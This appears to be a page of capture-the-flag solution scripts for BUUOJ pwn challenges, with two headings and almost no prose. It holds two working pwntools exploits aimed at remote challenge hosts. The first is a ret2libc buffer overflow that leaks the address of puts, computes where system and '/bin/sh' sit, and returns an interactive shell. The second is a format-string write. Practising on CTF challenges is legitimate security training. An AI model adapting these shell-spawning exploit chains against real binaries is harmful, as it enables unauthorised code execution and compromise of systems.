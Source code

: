 ```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25958)
elf = ELF('./pwn')
# libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.33.so')

poprdi_ret = 0x400c83

payload = b'\x00' + cyclic(0x50+7)
payload += p64(poprdi_ret)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols[b'main'])

io.sendlineafter(b'Input your choice!', b'1')
io.sendlineafter(b'Input your Plaintext to be encrypted\n', payload)
print(io.recv(12))

put_addr = u64(io.recv(6) + b'\x00\x00')
print(hex(put_addr))
libc = LibcSearcher('puts', put_addr)
libc_base = put_addr - libc.dump('puts')
sys_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')

print(hex(sys_addr))
print(hex(binsh_addr))

payload = b'\x00' + cyclic(0x50+7)
payload += p64(0x4006b9)	# ret
payload += p64(poprdi_ret)
payload += p64(binsh_addr)
payload += p64(sys_addr)

io.sendlineafter(b'Input your choice!', b'1')
io.sendlineafter(b'Input your Plaintext to be encrypted\n', payload)

io.interactive()
```
# buu008-[第五空间2019 决赛]PWN5
```python
from pwn import *

# io = process('./pwn')
io = remote('node4.buuoj.cn', 28577)

payload = fmtstr_payload(10, {0x804C044: 0})
io.sendlineafter(b'your name:', payload)

io.sendline(b'0')
io.interactive()
```
# buu009-ciscn_2019_n_8
